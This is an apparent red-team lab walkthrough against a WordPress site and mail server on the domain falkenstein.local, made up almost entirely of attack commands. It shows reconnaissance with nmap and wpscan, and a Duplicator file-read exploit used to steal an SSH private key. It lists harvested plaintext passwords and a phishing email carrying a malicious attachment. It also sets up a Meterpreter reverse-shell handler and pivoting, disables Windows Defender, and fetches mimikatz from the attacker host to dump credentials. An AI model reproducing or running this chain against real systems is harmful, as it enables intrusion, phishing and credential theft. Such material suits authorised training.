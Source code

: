 ## Information Gathering

### Passive
Google revealed that they have a website: falkenstein.local
### Active
```bash
sudo nmap -A --top-ports 50 falkenstein.local -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html
```

```bash
wpscan --url "http://falkenstein.local" --no-update --disable-tls-checks --plugins-detection aggressive --enumerate ap,cb
```

ap = all plugins
cb = configuration backups
## Initial Access
```bash
sp duplicator
```

```bash
sp -m 50420
```

```bash
vim 50420.py
```

```bash
python 50420.py http://falkenstein.local /etc/passwd
```
We find username karl
```bash
python 50420.py http://falkenstein.local /home/karl/.ssh/id_rsa
```

```bash
ssh -i id_rsa karl@falkenstein.local
```

```bash
cd /srv/www/wordpress
```

```bash
nano wp-config.php
```

```bash
sudo swaks -t anton@falkenstein.local --from karl@falkenstein.local --body @body_test.txt --header "Subject: Test" --suppress-data --server 172.16.42.200 -au karl -ap PLiMzCuJxAtEnfxfFJc8
```

```bash
git show
```

```bash
sudo swaks -t anton@falkenstein.local --from karl@falkenstein.local --body @body_test.txt --header "Subject: Test" --suppress-data --server 172.16.42.200 -au karl -ap sdw3edf9db$
```

#### Setup C2

- Host 2nd stage via webdav (shell 1)
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ~/Desktop/Falkenstein_Demo/Phishing/stage_2
```

( NOT NECESSARY WITH METERPRETER) Host the 3rd stage via HTTP (shell 2)
```bash
python3 -m http.server 8000 -d ~/Desktop/Falkenstein_Demo/Phishing/stage_3
```

- Receive reverse shell (shell 3)
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter_reverse_tcp; set LHOST 172.16.42.37; set LPORT 4444; set ExitOnSession false; run -j"
```

- Send Phish (shell 4)
```bash
sudo swaks -t anton@falkenstein.local --from f.cfurchensumpf@falkenstein.local --attach @config.Library-ms --body @body.txt --header "Subject: Horse Update" --suppress-data --server 172.16.42.200 -au karl -ap sdw3edf9db$
```

- Open Session (shell 3)
```msf
sessions -i 1
```

Strg + Z

```bash
use post/multi/manage/autoroute
```

```bash
set session 1
```

```bash
run -j
```
Ignore
	```bash
	use auxiliary/server/socks_proxy
	
	
	```bash
	run -j
	```

```bash
xfreerdp /u:"karl" /p:"sdw3edf9db$" /v:192.193.194.200 /dynamic-resolution /cert:ignore
```

Right-click on Start-Menu -> System shows we are on mail server. Navigate to:
`Program Files (x86)/Mail Enable/Postoffices/falkenstein.local/MAILROOT/f.cfurchensumpf/Inbox/`
- `_inbox` contains mail subjects and the corresponding mail file
-  The corresponding .MAI file can be opened with the editor
-> We have the local Administrators Password

Login with that over RDP. Disable windows defender (note that none of this was detected by defender so far!)

Connect from the MAILSRV to somewhere using RDP and set the checkbox "store credentials"

Download mimikatz from 172.16.42.37/mimikatz/x64/mimikatz.exe and execute with `.\mimikatz.exe privilege::debug token::elevate` then do `sekurlsa::logonpasswords`